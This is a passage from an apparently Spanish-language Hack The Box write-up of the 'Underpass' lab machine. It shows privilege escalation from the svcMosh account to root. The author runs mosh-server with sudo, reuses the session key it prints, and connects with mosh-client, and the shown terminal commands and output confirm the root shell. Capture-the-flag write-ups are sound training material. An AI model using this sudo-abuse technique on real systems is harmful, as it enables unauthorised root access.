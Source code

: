 Intento conectarme directamente como el cliente, pero se requiere que se defina la variable de entorno `MOSH_KEY`, la cual es provista por el servidor en el mensaje de conexión inicial.

```terminal
svcMosh@underpass:~$ mosh-client
mosh-client (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

Usage: mosh-client [-# 'ARGS'] IP PORT
       mosh-client -c

svcMosh@underpass:~$ mosh-client 127.0.0.1 60001
MOSH_KEY environment variable not found.
```

---

El servidor devuelve un mensaje `MOSH CONNECT` con un valor de clave que copio para reutilizar.

```terminal
svcMosh@underpass:~$ sudo /usr/bin/mosh-server

MOSH CONNECT 60001 3kDMiHnrUcJOuBeRPPMODQ

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 4926]
```

Utilizo dicha clave en la variable de entorno `MOSH_KEY` y lanzo el cliente apuntando al puerto 60001. Esto inicia una sesión como `root`, confirmando la escalada de privilegios.

```terminal
svcMosh@underpass:~$ MOSH_KEY=3kDMiHnrUcJOuBeRPPMODQ mosh-client 127.0.0.1 60001

root@underpass:~# id
uid=0(root) gid=0(root) groups=0(root)

root@underpass:~# cat /root/root.txt
```

> <a href="https://labs.hackthebox.com/achievement/machine/1521382/641" target="_blank">***Litio7 has successfully solved Underpass from Hack The Box***</a>
{: .prompt-info style="text-align:center" }
